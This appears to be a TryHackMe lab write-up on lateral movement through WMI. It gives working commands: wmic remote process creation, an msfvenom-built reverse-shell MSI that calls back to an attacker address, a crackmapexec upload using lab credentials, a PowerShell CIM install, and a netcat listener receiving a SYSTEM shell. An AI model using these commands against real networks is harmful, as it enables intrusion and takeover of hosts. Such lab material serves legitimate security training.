 ## Moving Laterally Using WMI

- Connecting to WMI From Powershell
- Remote Process Creation Using WMI
	- `wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`
- Creating Services Remotely with WMI
- Creating Scheduled Tasks Remotely with WMI
- Installing MSI packages through WMI
	- `wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi`

### Let's Get to Work!

Upload backdoor msi file

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.200.19.249 LPORT=1111 -f msi -o rev.msi
proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever' --put-file rev.msi \\Windows\\Temp\\revs.msi
```

```powershell
powershell -ep bypass

$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\Temp\rev.msi"; Options = ""; AllUsers = $false}
```

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35850
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>C:\Users\t1_corine.waters\Desktop\flag.exe
C:\Users\t1_corine.waters\Desktop\flag.exe
THM{MOVING_WITH_WMI_4_FUN}
```

## Use of Alternate Authentication Material
